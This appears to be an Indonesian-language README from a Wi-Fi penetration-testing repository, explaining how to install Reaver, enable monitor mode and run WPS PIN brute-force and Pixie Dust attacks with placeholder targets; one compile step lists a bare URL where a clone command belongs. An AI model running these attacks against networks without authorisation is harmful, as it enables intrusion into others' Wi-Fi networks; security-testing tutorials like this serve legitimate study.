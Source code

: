 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

### 1. Scan Wi-Fi WPS:

```
sudo wash -i [interface]
```

### 2. Pilih Taraget

Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

### 3. Jalankan Serangan

1. PIN Brute Force Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -vv
   ```
2. Pixie Dust Attack

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
   ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
